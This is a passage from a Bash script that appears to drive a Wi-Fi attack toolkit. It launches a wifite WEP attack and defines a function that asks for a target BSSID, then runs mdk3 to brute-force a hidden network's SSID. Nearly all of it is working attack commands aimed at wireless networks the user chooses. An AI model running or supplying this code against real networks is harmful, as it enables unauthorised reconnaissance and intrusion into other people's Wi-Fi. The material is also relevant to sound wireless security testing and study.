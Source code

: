 	$terminal $wifiteAttackWEP -i $interfaceMonitor &

	echo ""
	echo ""

}


bruteForceHiddenSSID(){

	currentTask="bruteForceHiddenSSID"

	adAPScanNoChannel

	banner
	echo ""
	$green
	echo "Using Interface: $interfaceMonitor"
	echo ""
	echo ""
	echo ""
	echo ""
	$cyan
	echo "Use the airodump window to find your target"
	echo ""
	echo "Example Hidden: 01:02:03:04:05:06                 <length 21>"
	echo ""
	echo ""
	echo ""
	echo ""
	$white
	echo "Type Target BSSID and Press ENTER:"
	echo ""

	read targetBSSID

	case "$targetBSSID" in

		*)
		banner
		echo ""
		$cyan
		mdk3 $interfaceMonitor p -t $targetBSSID -b -s 300
		echo ""
		echo ""
		;;

	esac
		
	$green
	echo ""
	echo ""
	echo ""
	echo "***************************************"
	echo "Bruteforcing Finished!"
	echo "***************************************"
	echo ""
	echo ""
	echo "Check Above For Possible Hidden SSID Reveals"
	echo ""
	echo ""
	echo ""
	echo ""
	echo "Press ENTER To Continue When Finished...."
	echo ""
	read finishBrute
